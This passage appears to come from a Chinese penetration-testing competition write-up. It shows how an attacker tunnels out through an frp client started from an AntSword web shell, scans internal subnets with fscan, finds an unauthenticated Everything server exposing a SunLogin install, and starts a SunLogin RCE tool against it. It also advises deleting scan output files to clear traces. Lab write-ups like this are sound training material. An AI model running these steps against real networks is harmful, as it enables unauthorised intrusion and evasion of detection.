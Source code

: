 ![image-20220530180710000000-1656056124969636.png](img/中小型企业环境网络安全渗透赛 local/c56725a5655cd70837fd02d9368e57ca.png)

![image-20220530180514000000-1656056126676334.png](img/中小型企业环境网络安全渗透赛 local/bde512aa893337b8744e548b7742e42d.png)

在蚁剑执行如下命令：

```
frpc.exe -c frpc.ini
```

![image-20220530180824000000-1656056128313491.png](img/中小型企业环境网络安全渗透赛 local/b19f893a4f435b46f2dccf8adbbd7e98.png)

使用fscan探测192.168.0.0/16网段

上传工具到OA主机，工具位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\端口扫描\fscan\fscan.exe`

![image-20220531091626000000-1656056129943845.png](img/中小型企业环境网络安全渗透赛 local/5cfbcdfdcac1b9bec273e80340370011.png)

在上传的目录打开终端，执行命令：

```
fscan.exe -h 192.168.1.1/16 >2.txt
```

![image-20220531092326000000-1656056131559535.png](img/中小型企业环境网络安全渗透赛 local/edd7be71b2e89c415e61481f9663d0e2.png)

结果可以在工具同目录生成的2.txt里查看。

![image-20220528130934000000-1656056133171247.png](img/中小型企业环境网络安全渗透赛 local/a62bd757da7ef6ee565df52ed0c3bd88.png)

fscan工具还会还会默认生成result.txt文件，比自己指定生成的结果少了探测存活主机的过程，痕迹清理的时候需要注意清理。

![image-20220531092432000000-1656056134795867.png](img/中小型企业环境网络安全渗透赛 local/e2ce0349fc01c690e1bf980b7203b3e9.png)

##### 任务10：通过应用软件漏洞获取办公区主机命令执行权限（T1596-主动扫描、T1203-利用客户端漏洞）

扫描192.168.51.53主机全端口：

```
s.exe tcp 192.168.51.53 1-65535
#如果扫描不出端口，可能是因为线程多了，减少线程再扫描，但耗时会更多。可以先扫着，先做其它任务。
s.exe tcp 192.168.51.53 1-65535 321
```

![image-20220528125302000000-1656056136413138.png](img/中小型企业环境网络安全渗透赛 local/ecb49b9e4bb9c11964c98f0c6413b3a5.png)

访问192.168.51.53:53432发现存在everything未授权

![image-20220528125248000000-1656056138004169.png](img/中小型企业环境网络安全渗透赛 local/0252fb0884db51932d1c12625296d5ff.png)

访问`http://192.168.51.53:53432/C%3A/Program%20Files/Oray/SunLogin/SunloginClient` 发现存在远程控制客户端。

解压工具，执行如下命令（工具位置：C:\Users\Administrator\Desktop\工具\tools\xrk.zip）

```sh
xrkrce.exe -h 192.168.51.53
```
